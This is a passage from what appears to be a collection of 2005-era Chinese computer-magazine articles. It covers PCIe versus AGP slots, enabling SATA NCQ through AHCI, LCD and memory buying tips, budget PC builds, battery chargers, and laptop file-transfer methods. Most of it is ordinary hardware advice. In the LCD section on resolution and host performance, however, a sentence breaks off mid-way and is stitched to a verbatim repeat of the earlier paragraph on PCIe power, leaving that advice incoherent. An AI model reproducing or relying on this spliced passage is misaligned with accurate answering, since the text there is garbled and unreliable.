前面说过，PCIE总线的扩展性很方便，可将多条PCIE X1并行使用，同样，我们也可以将已经并行使用了的PCIE X16总线在分开始用，得到两条PCIE X8总线，这样就可以同时插两块PCIE显卡，让两块显卡都只工作在PCIE X8的模式下（见图4）。这比一块主板只能有一个AGP插槽的设计显然方便多了，而类似SLI这样的多显卡应用方案也就能在PCIE总线的主板上实现了。甚至在应用中，分离出的PCIE X8插槽也可以不用于显卡，而是其他需要高带宽的扩展卡，这就是PCIE灵活应用的优势。

PCIE X16供电更有力。PCIE X16接口在设计时提供了75W的供电能力，而AGP 8X只有25W，因此在使用中高端显卡时，PCIE X16的显卡不需要外接供电头，这也使PCIE X16显卡的安装使用更方便。比如AGP版的不少GeForce6600显卡已经需要外接供电头，而PCIE版的更高级GeForce6800标版反而不需要外接供电，这就是PCIE供电的优势。

## 从AGP 8X过渡到PCIE X16，多种选择按需定

尽管PCIE X16接口有这么多优势，但毕竟是完全与AGP 8X不兼容的接口。对新装机用户来说，从方便提升性能，并方便未来升级的角度讲，首选PCIE显卡，因为随着时间的推移，更多的显卡很可能不再推出AGP版本，而对同时提供AGP和PCIE两个版本的显卡来说，PCIE高传输带宽的优势也会越来越明显。

而对想现在购买价格稍低的AGP显卡，以后升级PCIE显卡的用户或者现在已有性能较高的AGP显卡，只想换主板升级新平台，不想换显卡的用户来说，市面上同时提供AGP/PCIE X16双插槽的主板也可供选择，不过选择这些主板时也需要注意，现在Intel的9X5系列芯片组和nVIDIA的nFORCE 4系列PCIE芯片组不提供独立的AGP总线，这些主板上的AGP接口实际是由PCI总线转换而来，接口带宽只有真正AGP 8X总线的1/16，会严重影响高档AGP显卡的性能发挥，甚至让高档AGP显卡降低到只有AGP 8X接口时30%的性能。因此在使用高档AGP显卡时最好不要使用这种主板。另一类AGP/PCIE兼容主板是以VIA PT890Pro芯片组和ULI M1695+M1567南北桥的芯片组合，这两套芯片组均能提供真正的AGP 8X总线，显卡性能与现在的单独AGP主板相当。

(Pisces)

## 硬盘优化——NCQ技术详解

是“原生命令队列”，它是一项对硬盘的指令执行顺序进行优化的技术。拥有该技术的硬盘不会像旧硬盘一样，死板地按照接收指令的先后顺序移动磁头搜寻数据，相反，它会在接收到命令后，首先会对接收到的命令进行排序，排序后硬盘的磁头将会以更加高效率的顺序进行寻址，从而避免了磁头来回移动的时间损耗，也有效降低了磁头的磨损几率，延长硬盘寿命。

小爱：NCQ技术有那么多好处，那是不是所有的SATA硬盘都可以使用NCQ技术呢？
林林：呵呵，并不是所有的SATA硬盘都可以使用NCQ技术的。NCQ除了需要硬盘的支持外，还需要主板中的SATA控制器支持。
天唯：林林说得对，目前市面上销售的支持NCQ技术的硬盘主要有这几个型号（见表1）。

而目前市面上销售的支持NCQ技术的主板芯片组有这些（见表2）。
天唯：只有同时具备硬盘、芯片组的支持，才可以打开NCQ功能。好，下面就以ICH6R南桥控制芯片为例，给大家介绍一下如何启动SATA的NCQ功能。

为了使用NCQ功能，SATA磁盘控制器必须被设置为AHCI模式，这是Intel ICH6R南桥控制器支持的一个特性。进入BIOS后，依次进入“Integrated Peripherals → OnChip IDE Device”打开SATA Mode。
SATA Mode有三种模式：IDE、RAID、AHCI选项。IDE模式是让SATA硬盘工作在普通IDE模式下，通常用于单个SATA硬盘。而RAID模式则是通过RAID控制器来管理SATA硬盘，适合建立SATA RAID。AHCI模式则利用AHCI控制器来管理SATA硬盘。

当开启SATA RAID控制器时，AHCI会同时生效；如果不使用SATA RAID，AHCI可设置为关（即普通IDE模式）或开（单独启用AHCI）。只有AHCI设置为开时，才能够支持NCQ。

小爱：老师，是不是在设置的主板BIOS后，就开启了NCQ功能呢？
天唯：呵呵，当然不是。要开启NCQ，还需要操作系统的支持，需要注意的是，如果不能在系统中成功开启NCQ，就需要重装操作系统。而且，NCQ不能使用FAT32文件系统，只支持NTFS文件系统。下面就是开启系统对NCQ功能的操作。

第一步：准备一张AHCI驱动程序软盘，该软盘可在主板附件中找到，然后安装操作系统，当系统提示“Press F6 if you need to install a third party SCSI or RAID driver”时，按下F6键。
第二步：将AHCI驱动程序软盘插入软驱，然后按下S键，系统就会读取软盘中的驱动信息。选择与主板芯片组对应的AHCI驱动程序，按下回车键确定安装之后，剩下的按一般情况完成系统的安装即可。
第三步：在安装完操作系统后，还要安装相应的控制/驱动程序，当然不同芯片会有不同的程序。如ICH6R南桥在RAID和AHCI模式时，均需配合IAA RAID应用程序加速驱动（Intel Application Accelerator RAID）。当IAA RAID程序安装好后，在IAA RAID版控制界面中就能够看到硬盘的NCQ是否已经打开了。

**表1**

| 厂商 | 硬盘型号 |
| :--- | :--- |
| 希捷 | 希捷Barracuda 7200.7 SATA NCQ系列 希捷Barracuda 7200.8 SATA NCQ系列 |
| 迈拓 | 金钻10 SATA系列 |
| 日立 | Deskstar 7K500 SATA Deskstar T7K500 SATA Deskstar 7K80 SATA |

**表2**

| 厂商 | intel | VIA | SIS | NV | ULI |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 南桥芯片/芯片组 | ICH6R/RW | VIAVT8251 | 963/964/965 | nForce4 | M1573 |

硬盘优化选项并不多，但优化工具也有不少，可是原理和功能却几乎一样，所以大家可以根据自己的使用习惯进行选择。而使用SATA硬盘的朋友，就要更多地从硬盘本身的功能来入手，毕竟在短期内，SATA硬盘的许多功能都要手动开启。

好了，这期就先讲到这里，虽然这一期的优化操作都比较简单，但却是基础，有条件的同学们看完后，尽可能地动手实际感受一下，为以后的学习打好基础。还有问题的同学可以发Email到Market@cfan.com.cn，下期再见吧！

(天津 王磊)

## 谋定而动——了解LCD的四要点

在2004年以前，传统CRT显示器仍然占据着电脑卖场的主流地位，液晶显示器（以下简称LCD）仅是陪衬。到了2005年的今天，CRT已经光辉不再了，在全国各大城市的电脑卖场里，各种档口内所展示的显示器几乎是清一色的LCD。可见无论是买家还是卖家，都已经将眼光放在了LCD上。但面对琳琅满目的LCD，消费者在选购时除了信任品牌之外，还必须要了解以下4个与LCD品质息息相关的要点。

### 面板色彩划分LCD等级

LCD虽然在很久以前就被提出，但是一直到近年才开始打入家用市场，乃至日后相当一段时间内也无法在设计等高端应用领域上取代CRT显示器，其中一个重要的原因，就是在于LCD的色彩表现方面。

从技术上看，透过电子射线成像技术的传统CRT显示器轻易就可以实现高达16.7百万色彩，该色彩数目理论上已经达到人眼所能辨识的色彩数极限，故称作“真彩色”。而对于透过改变液晶分子遮光状态来实现画面显示的LCD来说，色彩表现还与CRT有很大差距。

体现LCD主要功能和性能的部件是液晶面板，目前主要有两种：一种是6位（bit）色彩的，另外一种是8位色彩的。所谓色彩数的N位，其实就是代表2的N次方，6位色彩代表2的6次方，即64色。而显示上包括R、G、B三原色（各有64色），因此所能组合的色彩总数就是64×64×64=262144（约26万色）。而对于8位色彩的LCD，即2的8次方=256，三原色的最大组合色彩数就是256×256×256=16777216，也就是前面所提及的“真彩色”了，是6位液晶面板的64倍！

在IT领域的各种产品上，技术的发展总是向前的，但是在LCD上，就有了一个特例：就是新推出的高速液晶面板，不少产品都采用了较低的6位色彩面板。

首先，在物理色彩表现能力上，6位色彩面板确实是不能与8位色彩面板相比，毕竟这就是一个确确实实的硬指标（见图1）。

其次，从视觉上理解，6位和8位色彩面板之间所存在的实际目测差异，并不如理论数值上那么庞大，因为聪明的液晶厂家发掘了一个能大大扩大显示色彩范围的资源——人眼，提出了色彩增强技术，以弥补6位面板的色彩不足。简单举个例子，人眼存在一定的惰性，当我们先后观看两种色彩的时候，在色彩1与色彩2之间切换的过程之间，人眼就会出现由色彩1与色彩2混合而成的第3种色彩，间接地让色彩转换过渡变得更自然。只要好好利用这一点，透过抖动等技术配合，就能让我们的眼睛“看”到更多的色彩了。

### 响应时间不可孤立看待

现在说到LCD的响应时间主要有全程响应时间和灰度响应时间，关于这两个响应时间的解释和与响应时间相关的刷新率大家可参考2005年8期上的《细说LCD响应时间》和2005年7期上的《刷新率的三重外壳》两篇文章。我们这里主要讨论调节响应时间的相关方式。

在IT世界里面，为了指标上的好看，厂家们的斗法是无所不用其极的，因此笔者还想给大家介绍一下提高液晶响应速度的途径，因为这对我们选购液晶同样很有参考价值。为了提高LCD的显示速度，常用的可行方法主要包括：改良工艺技术和液晶材料，加强对液晶分子状态的控制能力。

在工艺技术和液晶材料方面，要取得重大提升并不容易，必须靠世界上仅有的几家面板厂家进行技术革命才可以实现。因此，对各LCD厂家而言，它们所能做的主要就是如何去加强对液晶分子状态的控制能力。例如把驱动电压适当提高，那么液晶分子状态的改变就会立竿见影地变得很迅速，但液晶分子的寿命也会有所下降。不择手段的厂家为了赶上一个高指标的卖点，对于电压的调整更是“毫无保留”的，因此杂牌产品都是过度“超频”的产品，寿命没有保证，这种LCD的坏点会越冒越多（当然，其采用的劣质面板也是主要原因之一）。另外，厂家为了让驱动电压的控制更得心应手，还会改用驱动电路相对简单的6位色彩面板（6为色彩面板每个点仅需提供64种驱动电压，而8位面板则需256种），因此在选用快响应时间的LCD时更要注意LCD的颜色是否满足需要。

### 高亮不会照亮一切

“高亮”，也是LCD市场上炒得超热的一个名词。无可否认，高亮对于日常使用确实能带来不少的方便和好处，透过简单的亮度测量计，就能测定各液晶产品的标称亮度值是否有造假的水分（见图2）。

但是光有一个高亮的指标是很有误导性的，因为随着高亮而来的，很可能还有很大的画质损失。根据笔者的经验，不少标称高亮的LCD，都只是一味的把灯管亮度提高而已。灯管亮度被过分提高对灯管寿命的影响这里就不说了，然而，在灯管亮度被提高以后，液晶面板的分子透光性如果没有相应的配合，强光穿透液晶分子，就会出现很严重的画面亮部细节丢失！所以，一款真正高亮而且不影响画质的LCD才是有意义的。看高亮是否丢失细节的方法也很简单，只要把WindowsXP的背景设置为默认的草地蓝天白云壁纸，然后看蓝天白云的色彩是否正常，丢失细节的高亮显示器中蓝天的颜色会看起来发灰发白（见图3）。

### 分辨率要与主机性能配合

与CRT显示器不同，制约CRT显示器分辨率的是其带宽，而制约LCD的则是其真实分辨率。但是不少选购液晶的朋友都忽略了这点，明明在展台看的产品画质不错，但为何回家以后却觉得画面粗糙呢？这就是因为大家都沒有很好的理解真实分辨率。

LCD透过点阵来组成图像，其荧幕上的像素点的数目已经是固定的。以一台15英寸LCD为例，其屏幕上横轴有1024个点，竖轴有768个点，这就固定了其真实分辨率。只有在这个分辨率下（1024×768）的图像效果是最佳的，因此也称作最佳分辨率。但是，当需要显示的图像并非1024×768分辨率时，例如800×600，问题就出现了！通常有两种途径：一是就需要透过拉伸等处理，把800×600分辨率的图像拉伸成1024×768，以便在屏幕上全屏显示；二是直接在1024×768的显示器屏幕上，利用中央的800×600个点显示画面，而屏幕上第801~1024和第601~768的点则不使用（如图4）。目前主流液晶产品都采用第一种方式，即对非真实分辨率的画面都作拉伸缩放处理，全屏显示，但是由此必然带来严重的画质损失（如图5）！对于游戏用户来说，尤其需要注意你的主机性能，打个比方，如果你在使用中高端显卡时，PCIE X16的显卡不需要外接供电头，这也使PCIE X16显卡的安装使用更方便。比如AGP版的不少GeForce6600显卡已经需要外接供电头，而PCIE版的更高级GeForce6800标版反而不需要外接供电，这就是PCIE供电的优势。

## 买LCD注意多点平衡选择

当大家对上述4个要点有了了解以后，选购时自然更得心应手了。最后给大家总结一下：色彩和速度暂时还是天平上的问题，厚此则会薄彼，侧重色彩的设计用户与侧重速度的游戏玩家应该好好体会不同产品之间的差异，才能选出最适合自己的产品。而面对游戏和娱乐型用户，则应仔细匹配电脑主机在显示器最佳分辨率下的性能，切忌盲目追求高亮指标，以致牺牲画面效果。

(bio)

## 选好内存有7招

### 第一招：内存颗粒最重要

首先，颗粒本身品质的好坏对内存质量的影响几乎是举足轻重的。如果采用了次等颗粒，无论内存PCB的做工怎样优秀也没用。

颗粒必须是名牌大厂的内存颗粒。在名牌大厂的生产线中，颗粒必须经过极其苛刻的测试才被允许打上代表着质量和品质的原厂Mark，所以它们的质量有着非常好的保证。虽然使用名牌大厂的内存颗粒并不一定代表内存就是优秀，但采用不知名品牌的内存颗粒显然是更没有保证的。目前知名的内存颗粒品牌有：

- HY（现代）
- Samsung（三星）
- Winbond（华邦）
- Infineon（英飞凌）
- Micron（美光）
- 南亚（Nanya）

内存颗粒编号巧识别：编号的前二位（个别是前一位、前三位或四位）分别代表生产厂家，HY-现代、KM（KD）-胜创（KingMax）、TC-TOSHIBA（东芝）、W-Winbond宇瞻（华邦）、GM-LGs公司、M2-三菱（MITSUBISHI）、MB81-富士通、HYB-英飞凌（Infineon）、HM-日立（Hitachi）、K-三星（Samsung）、MT-美光（Micron）。

根据各个评测机构的分析结果，优秀的超频内存颗粒有（均指编号的最后几位）：Winbond（华邦）系列BH-5、CH-5、BH-6、CH-6、UTT，华邦系列内存颗粒的特征－颗粒正面左右对称分布2个凹进去的小圆圈，内存的侧面可以看到两个短距离的金属片；Hynix（现代）系列颗粒D43、D5；镁光系列-5B C、-5B G；Infineon（英飞凌）B5、BT-6、BT-5、CE-5/BE-5；三星（Samsung）系列TCB3、TCCC、TCC4、TCC5、TCCD。TCCD可以称得上最全面的内存芯片，参数高、频率也高，它可以在2-2-2-X的时序下稳定工作在220MHz，也可以在2.5-4-4-X的时序下以超过300MHz的频率稳定运行（见图2）。

TCCD对于电压比较敏感，但是并不需要太高的电压（2.8伏或更低）就可以完全进入高效状态，几乎适用于所有的主流主板。目前采用TCCD颗粒的内存产品在没有改造过的主板上可以轻松超到DDR600的水平，是很多超频玩家的最爱。TCCD和BH-5相比在高频时候的参数不足可以通过更高的工作频率来弥补，只是和某些主板的兼容性不是太理想（这一点和BH-5没得比啊）。目前几乎所有的内存超频记录都是由TCCD创造的，Kingston Hyper X，Corsair XMS，Patriot XBL，Mushkin Level 2，G. Skill，PQI Turbo以及Adata等采用TCCD颗粒的产品已经成为超频玩家们追捧的对象，当然售价也比较高。如DDR400超频王金士顿HyperX UL采用的就是TCCD颗粒（见图3）。

### 第二招：挑选优质PCB

优质的PCB板对于内存颗粒的影响，就类同于稳定可靠的主板对于CPU的作用。PCB乃优质内存的基础，我们应当尽量选择更多层数、更厚实的PCB电路板。6层板与4层板相比，成本更高，但却能明显提升内存的稳定性，特别是在高频工作状态下。由于4层板只有2层可以布线，另外两层是电源和地线，所以电路比较密集，电路之间的串扰也相对增加；而6层板可以多两层走线，所以6层板的电路布线空间相对增大，电路之间的串扰也会因此降低很多。现在主流品牌的内存大都采用了6层PCB。

其次，PCB板的贴片电阻和电容要尽可能多，金手指越厚实、越亮越好。

金手指的镀金质量是一个重要的指标，常用的化学镀金工艺，镀金层厚度在3~5微米，而优质内存的镀金层厚度可以达到6~10微米。较厚的镀金层不易磨损，并且可以提高触点的抗氧化能力，使用寿命更长。还有一种是成本更高，稳定性更好的电镀工艺。电镀工艺下的金手指会引出一条短小的引线，这是它与化学工艺的最明显区别（见图4）。

### 第三招：品质源于优异的工艺

焊接质量是内存制造很重要的一个因素。廉价的焊料和不合理的焊接工艺会产生大量的虚焊，在经过一段时间的使用之后，逐渐氧化的虚焊焊点就可能产生随机的故障。这种故障还较难确认，所以一旦发生就会让人有吃了苍蝇的感觉。这种情况多在山寨厂里生产出的内存上出现。

### 第四招：了解内存的封装方式

一般的DDR内存多采用TSOP封装的内存颗粒，这种颗粒成长方形，长边有引脚，比较容易辨认。另一种封装形式是BGA，这种颗粒有正方形和长方形两种，周边都没有引脚，而是通过芯片底部与PCB相连，这种封装的内存电气性能更好，容易运行在更高的频率下，所以在规格较高的内存条上都容易见到（见图5）。

BGA为Ball-Gird-Array的英文缩写，即球形封装，是新一代的芯片封装技术。它已经在笔记本电脑的内存、主板芯片组等大规模集成电路的封装领域得到了广泛的应用。应用这一技术的主要有Tonicom的Sim BGA、Kingmax的Tiny BGA以及Apacer的WBGA等。

采用BGA技术的芯片面积与封装面积之比不小于1:1.14，可以使内存在体积不变的情况下容量提高两到三倍，具有更小的体积，更好的散热性能和电气性能。BGA封装内存的引脚是由芯片中心方向引出的，有效地缩短了信号的传输距离，信号传输线的长度仅是传统的TSOP技术的四分之一，因此信号的衰减也随之减少。这样不仅能大幅度提升芯片的抗干扰、抗噪声性能，提高了电气性能，与传统TSOP封装方式相比，BGA封装方式还有更加快速和有效的散热途径。

### 第五招：注意内存条的SPD

在内存的边上，有一颗8Pin的小芯片（见图6），这就是我们经常听到的SPD（Serial Presence Detect串行侦测）芯片，不要小看那一小块SPD芯片，它的作用可大了。

SPD采用8针的SOIC封装（3mm x 4mm），一般是1个容量为256字节（2Kbit）的EEPROM（Electrically Erasable Programmable ROM 电可擦写可编程只读存储器芯片）。SPD的作用是记录内存的所有“隐私”，诸如内存的默认速度、容量、电压与行、列地址带宽等参数信息，当开机时PC的BIOS将自动读取SPD中记录的信息，如果没有SPD或者其中的信息和内存的实际硬件指标有所差异，就容易出现死机、不兼容的现象。另外，一些厂商出的主板，如Intel原装板一定要BIOS检测到SPD中的数据才能正常工作。至于普通主板则可以选择按SPD标称状态工作，也可以在BIOS中关闭SPD信息自行设置内存工作参数。

### 第六招：选择有排阻的内存条

为了使内存处理数据和传输数据的时候对不同信号进行相同的衰减和阻抗匹配，在金手指的上方会有一列十分整齐的电阻（如图7）。为了PCB布线方便，都采用排阻，排阻每边4个Pin，集成了4个相同的电阻，之间互不相通，目前大部分是用表面印有100等于10欧或220等于22欧的排阻。但某些厂商为了节省成本，在这个地方没有使用排阻。

## 第七招：电容的问题

电容在内存上也有不少，在电容旁边一般标有C××（××代表不同数字），其作用是用于滤除高频干扰。如图8所示。原厂内存以及Kingmax等内存在这两种元器件的选料上极为考究，大家在购买时一定要注意了。



## 为了防止买到假货，我们在选购品牌内存时，可以通过以下几点来判断该内存是不是正品：

- 看内存颗粒上的字母和数字是否清晰而有质感，各颗粒上的编号是否一致。有的打磨条用手轻轻搓动就会掉色，露出底层原有的字母痕迹；
- 看内存颗粒四周的管脚是否有浸锡、补焊的痕迹，电路板是否干净整洁，金手指有无明显擦痕和污渍；
- 看内存金手指与内存颗粒间的排阻与电容用料是否充足，排列是否整齐。很多假货为了节省成本，内存条上通常只有稀稀拉拉几个电阻和电容；
- 看内存电路上有没有内存厂商的明确标志，看内存包装盒、说明书、保修卡的印刷质量(假货一般印刷质量较差)。而且品牌内存在包装上通常都标有全球统一的识别码，还可以拨打免费的800电话查询内存的真伪。为了保险起见，笔者建议大家尽量到信誉较好的店家购买品牌内存。不过，在这里我支大家一招——掂分量。在鉴别一条内存条真伪之前，你最好先看一下内存条的PCB：假条一般是4层PCB，板型较窄；而品牌内存条则采用6层PCB，板型较宽、排布相当，因此正品内存条要略重一些。

如果是升级DDR内存，最好选购与原有内存同一品牌和速度的内存条，这样可以最大限度地保证系统的兼容性。最好的办法是把已有内存的编号记下，然后在市场上找到编号完全相同、兼容性也最佳的内存。需要注意的是，如果同时使用了DDR266、DDR333等不同速度和规格的内存，主板会将最低规格的内存工作频率设为所有内存的工作频率，这样速度较高的内存就被浪费了。

（翁永平）

## 低端装机的朋友看过来

## 先预算自己的支出能力

有4000元左右的，甚至3000元左右的低端配置。首先在买之前就要先确定支出预算范围，有了资金的预算，就不会把眼光停留在产品的品牌、档次、高性能的配置上；也不会被商家如簧巧舌鼓弄得失去了原来拿定的主意。对于这个档次的机器，一些奢侈品级别的部件就应毫不犹豫地排除在外。比如：液晶显示器、创新Audigy系列声卡、4.1/5.1音箱、DVD刻录机等等。因此可以选择名牌产品的第二品牌或者是较老型号的产品。这样的产品在质量和性能上是有一定保障的。

配置低价位电脑，要量度而行，降低费用。但不能在电源和显示器上选择低价、杂牌产品来压缩费用，补贴在其他配件上。

电源的优劣直接影响到计算机运行的稳定性。若电源不能满足各配件的需求的话，便会发生死机、数据读取错误、程序经常无响应等问题，所以电源要选择口碑一直不错的牌子。像百盛、航嘉、大水牛等电源，价格便宜，内部用料、做工都不错，能满足低端用户的需求。

低端用户的显示器选择CRT最为明智。虽然眼下LCD降价疯狂，但相比之下CRT性能并不差，价格还是便宜很多。质量好的CRT显示器不仅显示效果好，使用寿命长，而且辐射影响也完全不会超出健康标准。大品牌的CRT显示器，基本都通过了TCO’99认证，是杂牌不可同比的，因此选择这些牌子的老型号。如17英寸的CRT显示器就有LG的T711S、飞利浦的107S6、三星788DF可供选择，价钱在830元～950元左右。不仅在预算之内，还能保证使用。

## 然后明确使用目的

明确自己的使用目的，才能在其他几个占预算较多的部件上有所侧重地进行选择，做出合理的取舍。

就以最近很多人热衷的网络游戏WOW（World of Warcraft，魔兽世界）来说。不同要求的玩家有不同档次的配置设计，那么如何在低价位装出一台流畅地玩WOW的机器呢？最重要的是抓住问题的主要矛盾。

WOW对内存的要求很关键。256MB是勉强可以玩了；但你想要游戏流畅，就需要有512MB内存；如果游戏时还要挂着QQ，浏览网页等的话，那么至少需要768MB内存。现在有两个装机方案：A方案是用中档主板集成的显卡搭配一根512MB的内存，这样开销只是350元左右；B方案则是选择ATi Radeon9550等中档独立显卡加上256MB内存，此方案要花掉650元左右。

两个方案在游戏中的实际感受如何呢？有过WOW游戏经验的用户肯定会选择价格更低的A方案。A方案能够给用户带来更多的游戏享受，价格更高的B方案却是性价比更低的选择。

## 花时多了解行情

了解行情在装机中也很重要，这对控制价格很有帮助。如每年Intel都有几次例行的降价，降价的时间和幅度都会事先公布。在刚降价以后装机，无疑是明智的选择。另外，春节和两个黄金周（国庆、五一）的价格低谷往往都会出现在节前的几天，而不是节庆之中，节后更可能因为缺货而导致价格回升。此外，节庆前后往往有很多活动，自己去电脑城跑跑或者多关注相关媒体，肯定有收获。

在电脑城里面，商家往往向买家推荐的都是他们利润空间较大的产品，多了解不同牌子的行情不仅能让你掌握哪些产品的质量情况，还能了解一定价格的幅度。将价格控制在预算范围内，这是最重要的。

此外选购低端机时，一般来考考虑整合型产品的情况较多，此时一些名牌大厂的第二品牌或者一些过气的名牌往往是超值产品，而那些看似技术、规格较新的小厂产品，不值得考虑。

## 数码时代之充电秘笈

## 把握适当的充电时间

首先，笔者打算先来介绍一个大家都比较关心的问题——充电时间应该多长才合适呢？但在开始之前，笔者还是先跟大家大致介绍一下目前市面上主流的充电器所采用的两种充电模式：

- 智能型充电器

所谓智能型，就是指只要把电池装到充电器内，充电器就会自动侦测开始充电，且懂得侦测充电完毕，继而自动切断电源停止充电。这类型的充电器一般售价相对较高，但是使用方便，无需人为在旁守候，安全性也很好，值得选择(见图1)。

- 非智能型充电器

市面上有不少充电器并非智能型的，也就是说，它们不懂得去侦测充电过程的状态，惟一要做的工作就是只管充电就好了。这类型的充电器价格相对较低，但是使用麻烦、安全性也较低。顺便一提，有个别非智能型的充电器具备定时装置，即定时型充电器(timed charger)，它们会内置一个计时装置，当默认的充电时间到达后，就会切断电源停止充电。



对于非智能型的充电器，掌握正确的充电时间是必要的！因为过度充电，无论是对电池本身的寿命、能源浪费、时间浪费、环境安全等，都是百害无一利的；反之，充电不足则会大大影响我们的有计划性使用，例如外出拍照等。我们可以透过以下的计算公式，大致计算出适当的充电时间：

充电时间(小时) ≈ 效率系数 × 电池容量(mAh，毫安时) ÷ 充电电流(mA，毫安)

注:效率系数一般在1.2~1.5之间；在个别充电器的包装上，厂家会把该系数也标注出来，但多数厂家都没有标出。而且，大部分厂家所宣称的充电时间，几乎都把效率系数省略掉，即效率系数=1。就好像硬盘的实际容量明明是1MB=1024KB，而厂家就硬要来个标称容量1MB=1000KB，JS 这名字还真名副其实。

## 了解充电器的细节

对于充电器，可能大家平常听得最多的就是快速充电器(简称“快充”)和慢速充电器(简称“慢充”)，实际上，充电器的细节并不局限于快和慢两种，下面来为大家逐一细说。

## 1. 充电能力

充电器其实并没有快和慢的楚河汉界，只是按照不同充电器之间的充电时间长短来大致描述而已。在前面的介绍中，我们可以从充电时间的公式得知，充电时间与充电电流是密切关联的。因此，所谓快/慢充的区别，通常就在于其充电电流的大小。一般慢充的电流只有100 mA左右(见图2)，对两枚1800 mAh容量的AA电池充电，最快也得花上21.6小时！而快充的电流一般都在500mA以上的(见图3)，可比慢充节约几倍甚至十倍以上的时间！



而快充的缺点是对充电电池的使用寿命消耗较大，但笔者认为: 目前充电电池的价格并不高，因此我更情愿选择追求快速充电，而放弃电池寿命，大不了就换掉呗。

## 2. 电池卡座的数目

比较常见的家用充电器一般有三种: 一种仅有一个电池卡座，支持一枚AAA电池(常见于MP3充电套装中，因为不少MP3产品都只需一枚AAA电池供电)；一种则具备两个电池卡座(见图4)，支持两枚AA/AAA电池；最后一种则具备四个卡座。这点很简单，大家只要根据实际的需要选择就可以了。



但是有一点很容易被大家所忽略: 充电器的最小充电单位。举个例子，常见充电器都以一组电池(两枚电池为一组)为最小充电单位。对于一个四卡座的充电器来说，我们可以选择对一组或两组电池进行同时充电，但是不能单独对一枚电池充电。因此，大家在选择充电器的时候就得看清楚了!

## 3. 品质差异

市面上的充电器品牌十分繁多，而且外观假冒仿造的难度也不高，因此大量品质低劣的产品充斥着市场(见图5、6)。劣质产品的安全性，根本是一点保障都没有的，因此这里忠告大家千万不要贪小便宜，还是选个牌子货为上，如三洋(SANYO)、松下等。





## 4. 对可充电电池的支持

不同的充电器有一定的适用范围，而且目前消费类数码产品上应用最广的充电电池主要有Ni-Mh(镍氢，Nickel Metal Hydride)和Ni-Cd(镍镉，Nickel Cadmium)两种，购买充电器时必须选择匹配的产品(见图7)。



## 5. 直插式/可隐藏直插式/非直插式

不少朋友在选择充电器的时候，都没有留意充电器连接交流电插座的方式。

直插式，插脚都固定在充电器上。优点是可以十分方便地直接装到交流电插座上；缺点是充电器“庞大”的体积会把附近的交流电插座都霸占，无法为其他用电设备供电(见图8、9)。





可隐藏直插式，插脚都设置在充电器上，不用时可藏于充电器内，方便携带。其他优缺点同上。

非直插式，通过电源线连接交流电插座，优点是能有效避免直插式充电器体积上的“霸气”，不霸占其他交流电插座上的空间。

## 充电的注意事项

- 同时充电的电池必须尽量相同，若让不同容量的电池在同一充电器内同时充电，或把它们放到一起供电，那么只会按照最低容量的电池来计算，导致充电不足、电量估计错误等问题。
- 对于四卡座充电器来说，同时对一组或两组电池进行充电，电流和充电时间是不一样的。对两组电池进行充电，充电电流会比对一组电池充电低一半，时间会多一倍。因此，四卡座充电器上通常都会标出两个输出电流参数(见图10)。
- 注意充电器与电池的搭配，一般来说，充电器的充电电流不要大于电池容量的两倍。
- 尽量在电池电量耗尽之后，再对电池进行充电，以延长电池的寿命。
- 在电池充电时，尽量不要在充电器附近摆放易燃杂物，注意安全。



(bio)

## 5种“快捷方式” 本本随时随地互联

现在不少朋友因为工作、生活和学习的需要，都用上了笔记本电脑(以下简称本本)。不知道大家是否也和笔者一样，在使用本本的时候，也常常遇到本本与PC、本本与本本之间的文件交换问题。今天笔者就为大家总结了5种另类而实用的本本文件交换“快捷方式”。

## 反线双机互联

- 必要条件:1. 互联的两台电脑都有网卡; 2. 一条采用568a和568b交叉接法的双机互联网线。

这种方式大家比较少用，但却非常简单有效的。它利用俗称“反线”的双机互联网线将两台电脑直接连接起来，形成一个小型对等局域网，让用户进行文件交换。

## 小知识

国际网线标准排列有568a和568b，那么这两个标准是怎么回事呢? 其实就是网线里面的双绞线的排列顺序，568a标准的排列顺序是(从左往右)绿白，绿，橙白，蓝，蓝白，橙，棕白，棕；而568b的排列则是橙白，橙，绿白，蓝，蓝白，绿，棕白，棕；而本文所提到的反线就是两端分别采用568a和568b标准进行接线的网线(见图1)。它通常用在PC到PC、HUB普通口(级连口)到HUB普通口(级连口)、HUB普通口到Switch普通口、Switch普通口到Switch普通口、Router到Router的连接上。注:HUB为集线器, Switch是交换机, Router是路由器。级连口就是HUB和Switch上的Up Link接口。



优点: 使用简单、方便，网线也很便宜，一米的反线大概也就卖二三元。而且任何一个网管员或网络产品专卖店的员工都会做这种双机互联网线。

缺点: 传输距离受网线长度限制，同时由于这种传输数据方式的数据流量比较大，在传输大文件时，性能稍差点的电脑会在传输文件时出现系统资源被100%占用而影响其他操作的情况。

## 无线网卡互联

- 必要条件: 无线网卡

如果本本配备了无线网卡(见图2)，就可以与对方的无线网卡组建一个基于Ad-hoc无线网络拓扑结构的对等无线网络。这与前面的有线网卡双机互联很相似，但这种方式可进行多机互联，而不仅仅局限于两台本本或PC之间了(详细的操作，请参考本期特别话题)。



优点: 摆脱了线缆的束缚，无需添加设备、线材成本，且能在很短的时间内与多台电脑建立网络并进行资源共享，其交换文件的操作和局域网的一模一样。

缺点: 无线网卡在PC和本本上的应用还没有全面普及，大多数两年以上机龄的电脑都没有配备无线网卡，设置也不为人所熟知。而在安全性上也不够完善，不设置网络密码的话，更是一种开放式的网络，任何一台具备无线网卡的电脑都可以得到你共享的资源。此外，个别本本上所使用的无线网卡还不是那么稳定，传输数据时容易因掉线而发生中断。

## 用现成的网络互联

- 必要条件: 现成的局域网、Internet网络接口

利用公司的局域网进行文件交换应该是用得最多的方法了，实际上就是利用现成的网络进行文件交换。但除了公司的局域网之外，可利用的现成网络还有星巴克咖啡店、部分大城市的麦当劳快餐店、上岛咖啡馆等地方的免费(有线或无线)Internet网络接口，只要你消费一杯饮料即可享用。一般来说，如麦当劳、上岛咖啡馆的网络都是采用服务器自动分配IP地址的，因此我们只要依次打开本本的“本地连接属性→Internet协议(TCP/IP)→属性”进入“Internet协议(TCP/IP)属性”设置IP地址和网关、DNS的获取方式为“自动获取”(见图3)，接上网线即可联机、上网。如果网络受到限制不能找到对方的电脑的话，还可以利用MSN、QQ等可传输文件的即时聊天工具进行文件交换。此外，要是遇到什么网络问题，你还可以让店员提供相应的技术支持。



优点: 环境好，还可获得一定的技术支持。

缺点: 一般只有在咖啡店和麦当劳里面消费的客户才可以免费使用他们的网络，而且这些店大多都只是在大城市的闹市中才能见到。

## 双机火线互联

- 必要条件:
1. 电脑必须具备IEEE1394接口;
2. 需要一条IEEE1394连接线

